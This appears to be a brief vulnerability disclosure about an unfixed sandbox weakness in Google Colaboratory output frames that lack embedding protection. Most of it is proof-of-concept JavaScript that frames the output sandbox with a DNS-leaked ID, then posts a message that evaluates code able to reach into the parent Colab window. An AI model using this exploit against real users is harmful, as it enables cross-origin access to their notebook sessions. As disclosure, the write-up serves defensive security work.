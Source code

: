 ```yaml
---
title: Insecure sandbox implementation on Colaboratory outputframes (Not Fixed)
---
```

Google Colaboratory puts some output such as visualizations into a sandbox however it has no embedding protection such as csp frame-ancestors so the origin is exposed to attackers with local network access.

```js
let w = open('about:blank');
```

On about:blank
```js
opener.location = 'https://colab.research.google.com/';
```

Leak ID from unencrypted DNS then do
```js
let IDfromDNS = 'blah';
let f = document.createElement('iframe');
f.hidden = true;
f.src = 'https://'+IDfromDNS+'-0-colab.googleusercontent.com/outputframe.html';
document.body.appendChild(f);
setTimeout(_ => { f.contentWindow.postMessage({sandboxed_iframe_evaluation: 'console.log(parent.opener[0].google)'}, '*'); }, 100);
```

On the "Welcome to Colaboratory" project using the sandbox on attacker.
```parent.opener[0].google``` refers to stuff.
```parent.opener[5].document``` refers to the chart.
